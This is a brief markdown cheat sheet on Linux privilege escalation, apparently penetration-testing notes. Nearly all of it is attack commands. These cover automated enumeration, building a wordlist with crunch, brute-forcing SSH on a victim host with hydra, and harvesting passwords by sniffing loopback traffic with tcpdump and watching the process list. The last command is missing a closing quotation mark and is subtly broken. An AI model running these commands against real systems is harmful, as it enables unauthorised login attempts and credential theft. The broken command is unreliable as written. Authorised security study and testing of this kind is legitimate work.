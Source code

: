# Linux Privilege Escalation

## Automated enumeration

```
/usr/bin/unix-privesc-check
```

## Brute force ssh

```
crunch 11 11 -t Password%%% > wordlist
hydra -l user -P wordlist $VictimIP -t 4 ssh -V
```

## Services

```
sudo tcpdump -i lo -A | grep "pass"
watch -n1 "ps auxww | grep pass | grep -v grep | fold -s
```

